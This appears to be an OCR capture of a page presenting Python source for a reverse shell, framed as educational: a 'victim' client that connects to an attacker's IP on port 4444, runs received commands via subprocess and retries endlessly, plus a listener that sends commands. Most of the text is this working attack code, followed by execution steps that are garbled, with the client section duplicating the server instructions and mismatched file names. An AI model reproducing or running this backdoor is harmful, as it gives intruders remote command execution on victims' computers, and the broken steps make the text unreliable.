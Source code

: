 This is a simplified example for educational purposes only. In a real-world scenario, such tools are often much more complex and include various features for evading detection, encrypting communications, and more.

**Client.py (Victim's Machine)**
import socket
import subprocess
import os

def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("attacker_ip", 4444))  # Replace "attacker_ip" with the attacker's IP address
    while True:
        command = s.recv(1024).decode()
        if command.lower() == "exit":
            break
        output = subprocess.getoutput(command)
        s.send(output.encode())
    s.close()

def main():
    while True:
        try:
            connect()
        except:
            pass

if _name_ == "_main_":
    main()
`
**[**Attacker.py**`]**
import socket

def start_server():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0", 4444))  # Bind to all available interfaces on port 4444
    s.listen(1)
    print("Waiting for connection...")
    conn, addr = s.accept()
    print(f"Connected to {addr}")
    while True:
        command = input("Enter command: ")
        conn.send(command.encode())
        if command.lower() == "exit":
            break
        output = conn.recv(4096).decode()
        print(output)
    conn.close()

if _name_ == "_main_":
    start_server()

**
**Steps for execution******
Set Up the Attacker's Machine:

Open a terminal or command prompt on the attacker's machine.
Save the Server.py script to a file, for example, server.py.
Run the server script:
sh

python server.py
*
*
The server will start listening for incoming connections on port 4444
**In client terminal**
Open a terminal or command prompt on the attacker's machine.
Save the Server.py script to a file, for example, server.py.
Run the server script:
sh

python server.py
The server will start listening for incoming connections on port 4444.


    
